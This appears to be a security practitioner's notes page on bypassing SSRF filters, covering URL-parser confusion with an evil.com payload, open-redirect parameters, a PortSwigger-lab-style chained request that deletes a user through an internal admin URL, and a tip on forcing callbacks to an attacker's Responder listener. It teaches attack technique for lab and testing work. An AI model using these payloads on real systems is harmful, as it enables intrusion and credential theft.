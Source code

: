 
###### Abusing URL Parsers
```http
http://google.com#@evil.com/

// If function used in backend is PHP parse_url() --> google.com will be considered as the main domain
// If function used in backend is PHP readfile()  --> evil.com will be considered as the main domain
```


Portswigger Lab Solution Explanation : [Why does Portswigger's solution to the lab "SSRF with whitelist-based input filter" work? - Information Security Stack Exchange](https://security.stackexchange.com/questions/226714/why-does-portswiggers-solution-to-the-lab-ssrf-with-whitelist-based-input-filt?newreg=1bfdb14f82764f108f469829b1a56757)

---
# Bypassing SSRF filters via open redirection
_An open redirect occurs when an application takes a parameter and redirects a user to that parameter value without any conducting any validation on the value_.

Common Parameters
dest, redirect, uri, path, continue, url, window, to, out, view, dir, show, navigation, Open, url, file, val, validate, domain, callback, return, page, feed, host, port, next, data, reference, site, html


For example, suppose the application contains an open redirection vulnerability in which the following URL:
```http
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

returns a redirection to:
```http
http://evil-user.net
```

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

If the Vulnerable Input Field doesn't take `http://`, try only the path *without* http
```http
stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin/delete?username=carlos
```

---
# SSRF to Responder
Send a request back to the attacker machine if target looks like an AD machine!
Send through HTTP or LDAP or any other service!

---